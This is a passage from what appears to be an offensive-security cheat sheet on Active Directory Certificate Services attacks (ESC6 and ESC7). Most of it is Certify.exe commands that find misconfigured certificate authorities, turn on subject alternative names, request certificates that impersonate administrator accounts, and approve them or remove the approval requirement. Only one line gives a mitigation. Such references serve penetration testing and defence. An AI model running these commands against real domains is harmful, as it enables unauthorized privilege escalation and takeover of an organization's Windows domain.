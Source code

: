 > If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

**Exploitation**

* Use [Certify.exe](https://github.com/GhostPack/Certify) to check for **UserSpecifiedSAN** flag state which refers to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

    ```ps1
    Certify.exe cas
    ```

* Request a certificate for a template and add an altname, even though the default `User` template doesn't normally allow to specify alternative names

    ```ps1
    .\Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:User /altname:DomAdmin
    ```

**Mitigation**

* Remove the flag: `certutil.exe -config "CA01.domain.local\CA01" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2`

## ESC7 - Vulnerable Certificate Authority Access Control

**Exploitation**

* Detect CAs that allow low privileged users the `ManageCA`  or `Manage Certificates` permissions

    ```ps1
    Certify.exe find /vulnerable
    ```

* Change the CA settings to enable the SAN extension for all the templates under the vulnerable CA (ESC6)

    ```ps1
    Certify.exe setconfig /enablesan /restart
    ```

* Request the certificate with the desired SAN.

    ```ps1
    Certify.exe request /template:User /altname:super.adm
    ```

* Grant approval if required or disable the approval requirement

    ```ps1
    # Grant
    Certify.exe issue /id:[REQUEST ID]
    # Disable
    Certify.exe setconfig /removeapproval /restart
    ```
